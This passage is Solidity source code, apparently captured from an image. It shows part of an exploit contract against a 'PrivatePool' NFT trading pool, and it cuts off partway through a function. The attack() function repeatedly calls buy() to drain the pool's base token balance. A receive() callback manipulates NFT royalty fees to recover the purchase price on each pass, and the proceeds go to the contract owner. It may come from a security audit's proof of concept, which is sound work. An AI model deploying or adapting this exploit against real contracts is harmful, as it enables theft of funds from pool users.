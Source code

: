 ```solidity
     * @param iterations How many times to perform the attack in order to drain the entire base token balance of the pool.
     * @param tokenIds An array including only the tokenId that will be used to perform the attack.
     * @param tokenWeights Empty array if the merkle root is bytes32(0).
     * @param proof Empty if the merkle root is bytes32(0).
     */
    function attack(
        uint256 iterations,
        uint256[] calldata tokenIds,
        uint256[] calldata tokenWeights,
        PrivatePool.MerkleMultiProof calldata proof
    ) external payable onlyOwner {
        // Execute attack.
        for (uint256 i; i < iterations; i++) {
            vulnerablePrivatePool.buy{value: msg.value}(
                tokenIds,
                tokenWeights,
                proof
            );
        }

        // Return all assets to the owner/original receiver.
        (bool success, ) = payable(owner()).call{value: address(this).balance}(
            ""
        );

        // Ensure the call was successful.
        require(success);
    }

    /**
     * @notice Main logic for the exploit.
     */
    receive() external payable {
        // Do not allow arbitrary calls.
        require(msg.sender == address(vulnerablePrivatePool));

        // Return if the call comes from PrivatePool.sell().
        if (f2) return;

        // We should enter the next block only if the call
        // comes from the ETH excess refund in PrivatePool.buy().
        if (!f1) {
            // Do not enter again for this iteration.
            f1 = true;

            // Cache the original fee in order to reset it later.
            (, originalFee) = nft.royaltyInfo(tokenId, 10_000);

            // Increase the royalty fee significantly to get back the price we paid for buying it.
            nft.setTokenRoyalty(tokenId, address(this), 10_000);

            // Return to PrivatePool.buy().
            return;
        }

        // Reset the fee.
        nft.setTokenRoyalty(tokenId, address(this), uint96(originalFee));

        // Set the second flag used to not execute any logic if the call comes from PrivatePool.sell().
        f2 = true;

```
